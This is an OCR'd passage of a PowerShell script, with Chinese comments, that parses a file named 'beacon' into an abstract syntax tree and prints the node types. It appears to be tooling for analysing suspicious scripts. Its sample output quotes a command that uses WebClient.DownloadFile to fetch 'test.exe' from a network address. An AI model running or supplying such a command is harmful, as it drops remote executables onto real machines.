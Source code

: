 ```
  Write-Output ("file name: {0}" -f ($str))
  $content = Get-content $str
  Write-Output $content

  # 创建Scipt代码块
  # 报错：表达式或语句中包含意外的标记
  # 原因：Create需要保证PS代码正确
  # $code = [ScriptBlock]::Create($content)

  $tokens = $null
  $errors = $null
  $code = [Management.Automation.Language.Parser]::ParseInput($content, [ref]$tokens, [ref]$errors)


  Write-Output $code

  # 提取AST
  $code.FindAll( { $true }, $true) |
  ForEach-Object {
    # take unique object hash as key
    $id = 0;
    if($_.Parent) {
      $id = $_.Parent.GetHashCode()
    }
    Write-Debug('{0}:{1}' -f $_.GetType().Name,$id)

    if ($hierarchy.ContainsKey($id) -eq $false) {
      $hierarchy[$id] = [System.Collections.ArrayList]@()
    }
    $null = $hierarchy[$id].Add($_)
    # add ast object to parent
  }
  
  # 递归可视化树
  function Visualize-Tree($Id)
  {
    # 每级缩进
    $hierarchy[$id] | ForEach-Object {
      # 获取当前AST对象的id
      $newid = $_.GetHashCode()

      # 递归其子节点（if any)
      if ($hierarchy.ContainsKey($newid))
      {
        Visualize-Tree -id $newid
      }
      $null = $result.Add($_.GetType().Name)
    }
  }

  # 使用AST根对象开始可视化
  Visualize-Tree -id $code.GetHashCode()
  Write-Output $result
  return $result
}

Convert-CodeToAst -str .\data\beacon

```

---

[NamedBlockAst]: $a = 1
[NamedBlockAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')